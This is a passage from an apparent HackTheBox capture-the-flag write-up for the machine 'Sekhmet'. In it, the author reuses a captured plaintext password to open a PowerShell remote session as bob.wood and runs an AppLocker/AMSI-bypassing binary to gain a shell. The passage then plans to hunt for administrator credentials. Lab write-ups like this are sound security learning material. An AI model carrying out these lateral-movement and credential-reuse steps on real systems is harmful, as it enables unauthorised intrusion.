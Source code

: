 ### Bob.Wood

Now that we have one set of credentials, we can think about how to gain a shell on bob.wood. I tried remote Powershell with the credentials, and found that they were re-used!

```powershell
$SecPassword = ConvertTo-SecureString '!@p%i&J#iNNo1T2' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('bob.wood', $SecPassword)
$session = New-PSSession -Credential $Cred 
Invoke-Command -Session $session -scriptblock { whoami }
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/47.png" >

With this, we can gain another shell on the host using the same binary that bypassed AppLocker and AMSI.

```powershell 
Invoke-Command -Session $session -scriptblock { C:\Windows\Debug\wia\a.exe }
```

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Sekhmet/48.png" >


### Bob.Woodadm
We already know that Bob.Wood has another account on the domain with administrator privileges. Perhaps the credentials for the administrator are hidden somewhere on this account, perhaps in some file or cache.
